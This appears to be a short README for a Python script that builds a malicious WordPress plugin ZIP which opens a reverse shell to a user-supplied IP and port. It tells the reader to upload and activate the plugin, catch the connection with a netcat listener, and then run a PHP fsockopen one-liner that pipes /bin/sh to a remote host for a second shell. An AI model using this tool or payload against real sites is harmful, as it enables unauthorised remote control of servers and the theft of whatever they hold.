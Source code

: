 usage wp-plugin.py 
Enter the IP address for reverse shell connection: <YOUR IP>
Enter the port for reverse shell connection: <PORT>
Plugin ZIP created at reverse_shell_plugin.zip. Upload this to WordPress and activate it.                                            

Now upload reverse_shell_plugin.zip and start a netcat listener to <PORT> to get a revershell, the shell 



This shell is not an interactive shell, after getting the shell if you want a fully interactive shell do this

```bash
php -r '$sock=fsockopen("<IP>",<NEW PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
